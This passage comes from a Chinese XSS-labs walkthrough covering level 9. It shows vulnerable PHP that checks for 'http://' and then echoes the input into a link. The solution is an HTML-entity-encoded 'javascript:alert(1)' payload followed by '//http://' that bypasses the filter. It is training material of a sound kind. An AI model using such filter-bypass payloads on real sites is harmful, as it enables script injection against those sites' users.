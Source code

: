 

查看源码：

```php
<?php 
// 部分源码
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
}
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

---


## Level 9 - 解决方案

发现判断要求一定要包括`http://`这个完整的字符串，同时也过滤了很多xss有关的字符串，使用level 8一样的payload并加上`//http://`：

```plaintext
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

这样既满足了包含"http://"的条件，又使用了实体编码绕过过滤。

---


## Level 10-13：高级XSS技巧

---


## Level 10 - 隐藏表单域

进入靶机后发现变化，没有输入框存在：
![#c](./images/xss-labs_网页源代码.png)

